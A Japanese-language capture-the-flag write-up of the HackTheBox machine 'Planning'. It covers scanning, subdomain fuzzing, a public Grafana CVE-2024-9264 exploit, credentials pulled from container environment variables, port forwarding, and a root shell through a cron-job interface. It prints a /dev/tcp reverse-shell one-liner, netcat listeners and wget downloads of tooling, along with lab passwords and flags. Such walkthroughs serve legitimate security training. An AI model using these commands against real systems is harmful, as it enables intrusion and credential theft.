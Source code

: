 # Planning WriteUps 

- **[HackTheBox_Planning](https://app.hackthebox.com/machines/Planning)**

- admin / passwords
```
admin / 0D5oT70Fq13EvB5r
```

- WorkSpeace
```
mkdir Planning && cd Planning
```

## 調査
まず、targetであるip address(```10.10.11.68```)に```nmap```もしくは```rustscan```でもいいので
開いているサービスを調べる
### 付け加え
こうするといちいちipを入力しなくてもいい
```
export ip="10.10.11.68"
# 使用するときは $ipと使う
```

### Nmap Options
- nmap cmd 
```
nmap $ip -sC -sV -sC -oN target_port.log -T4  
```

- scan結果
```
# Nmap 7.95 scan initiated Tue Jul  1 14:53:40 2025 as: /usr/lib/nmap/nmap -sS -sV -sC -oN target_port.log -T4 10.10.11.68
Nmap scan report for 10.10.11.68
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  1 14:54:05 2025 -- 1 IP address (1 host up) scanned in 24.95 seconds
```

これらから、22,80が開いていることがわかる。
また、```_http-title: Did not follow redirect to http://planning.htb/```から```/etc/hosts```に
```10.10.11.68   planning.htb```と指定する必要がある。

### http://planning.htbにて
contactなどの送信フォームなどでスクリプトを発火させることができるかと検証をしたが
特に見当たらなかったので```ffuf```でsubdomainを探すことにした

今回使用したwordlilst
- **[Seclists](https://github.com/danielmiessler/SecLists)**

gitでclone
```
git clone https://github.com/danielmiessler/SecLists.git
```
ちなみに今後様々な問題を解くうえでこういったwordlistsは```/usr/share```の下に設けるといいだろう

僕の場合、```Planning``` wordspaceに
```
cat /usr/share/Seclists/Discoverty/DNS/subdomains-* >> subdomain.txt
```
とすべてのsubdomainを```subdomain.txt```でまとめて使用した。

### ffuf Options
```
ffuf -w subdomain.txt -u http://planning.htb -c -H "Host :FUZZ.planning.htb" -o ffuf.log
```
これにより、```grafana```というsubomainが見つかる。
もちろん、```grafana.planning.htb```を```/etc/hosts```に追加しなければならないので
```10.10.11.68   planning.htb grafana.planning.htb```となる。

そこから、```http://grafana.planning.htb```にアクセスすると
```/login```ページに飛ばされる。
そこから有力な情報がないか調べた際に
Version情報があり、```Grafana v11.0.0 (83b9528bce)```と記載されてたため
そこからExploitを探索し```CVE-2024-9264```が見つかり、
Githubから**[Poc](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)**を使用し

先に```netcat```で待ち受けし、
```
nc -lvnp 1234
```

その後、以下のoptionで```poc.py```スクリプトを実行
```
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.11.68 --reverse-port 1234 
```

###　Environment
無事に入れたので
まず、このマシンがコンテナどうか```env```で調べます。
```
GF_PATHS_LOGS=/var/log/grafana
_=dockerenv
```
この情報から```Docker````のコンテナ内というのがわかりました。
また、
```
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```
これらの情報から```enzo``` Userと```RioTecRANDEntANT!``` Passwordを取得できた。

## User Flag

```
ssh -p 22 enzo@10.10.11.68
```
から```RioTecRANDEntANT!```とpasswordを入力し、
user.txtからFlagを取得
```
86c057f17190dee41a5c5295959d573d
```
### サービスチェック
他にもこのマシン上でどのサービスが開いているか調べるために
```
ss -tul
```
で調べた結果
```
127.0.0.1:8000
```
が開いており、それを自分のマシンへと転送するために
```
ssh -p22 enzo@10.10.11.68 -L 8000:127.0.0.1:8000
```
とし、
自分のマシンから```http://127.0.0.1:8000```にアクセス
すると、loginホップアップが出たので
一旦、```10.10.11.68```のsshに戻って
そこでlogin情報で必要な情報を```linpeas.sh```を使ってみる。
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
で自分のマシンにダウンロードします。
targetマシンである```10.10.11.68```に持っていきたいので
自分のマシンで以下のcmdを実行
```
python3 -m http.server 8080
```

これでHTTP Serverが開くので
targetマシン上で
```
wget http://10.10.XX.XX:8080/linpeas.sh
```
で持ってきて
```
chmod +x linpeas.sh
```
実行権限を与えて```./linpeas.sh```でscanします。

SQL File Pathから```Found /var/lib/command-not-found/commands.db```が出力され
```
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```
から、
```
root /  P4ssw0rdS0pRi0T3c
```
を発見！

試しにlogin ホップアップに入力
無事、loginできました！！

その後、新規で
```
bash -c 'exec bash -i >& /dev/tcp/10.10.16.3/1234 0>&1'
```
を保存し
先に```netcat```で待ち受けし
```
nc -lvnp 1234 
```

そして、```run now```で実装します。

そうするとshellがとれて```id```から
```
uid=0(root) gid=0(root) groups=0(root)
```
わかり、```/root/root.txt```

## Root Flag
```
0ebacefa1bfc4ad4eca56fa64ba4de02
```

## Completed!!
